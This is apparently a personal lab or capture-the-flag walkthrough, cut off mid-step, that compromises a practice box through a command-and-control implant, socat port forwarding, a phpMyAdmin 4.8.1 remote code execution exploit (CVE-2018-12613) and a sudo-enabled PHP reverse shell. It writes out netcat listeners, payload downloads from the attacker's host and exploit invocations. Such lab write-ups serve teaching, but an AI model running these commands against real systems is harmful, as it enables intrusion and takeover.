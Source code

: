
## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector

# Blog notes
1. export RHOST=10.10.164.197
2. nmap -p- --min-rate 10000 $RHOST
3. sudo tcpdump -i tun0
4. python -m http.server 81
	1. GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDFUMDI6MTI6MDIuMDk5NDcxIiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9
	2. GET /get-job/ImxhdGVzdCI=
5. python server.py
	1. GET /job-result/eyJqb2JfaWQiOiAxNSwgImNtZCI6ICJ3aG9hbWkiLCAic3VjY2VzcyI6IHRydWUsICJyZXN1bHQiOiAiYWRhXG4ifQ==
6. rlwrap -cAr nc -lvnp 9001
7. SHELL
	1. ls
	2. cat user.txt
	3. cat products.py
	4. ss -tulpn
		1. Shows that there is a server listening on port 80
		2. This port isnt accessible from the outside world so why dont we make it
8. Download [socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) binary onto our machine and setup a python server to transfer it
	1. python -m http.server 9002
9. SHELL
	1. wget http://10.13.0.100:9002/socat
	2. chmod +x socat
	3. ./socat TCP4-LISTEN:8080,fork TCP4:127.0.0.1:80
10. We can now connect to the exposed phpmyadmin server via a web browser
	1. Once here we use the creds found in products.py and sign in
	2. We see that its running version 4.8.1 so lets look at that on exploit-db
		1. We can see that there is a RCE [CVE-2018-12613](https://nvd.nist.gov/vuln/detail/CVE-2018-12613)
		2. Lets download this [exploit](https://www.exploit-db.com/raw/50457)
		3. Lets test it out with a simple **whoami**
			1. python 50457 $RHOST 8080 / app s4Ucbrme 'sudo whoami'
				1. We see we are **www-data**
			2. python 50457 $RHOST 8080 / app s4Ucbrme 'sudo -l'
				1. We have access to run php files sudo with NOPASSWD
11. At this point the path to root is really simple
	1. Firstly lets start by copying a **php-reverse-shell.php** to a directory that we can host a python server
		1. Kali has these under `cp /usr/share/webshells/php/php-reverse-shell.php .`
	2. Next lets start our python server that will be hosting the php reverse shell
		1. `python -m http.server 9002`
	3. Third start a listener on the port we assigned to the php shell
		1. `rlwrap -cAr nc -lvnp 9003`
	4. We will now need to disconnect from our shell with **ada** with CTRL-C so we can transfer our new shell and currently this user is held up with the socat command (don't worry that port is still forwarded)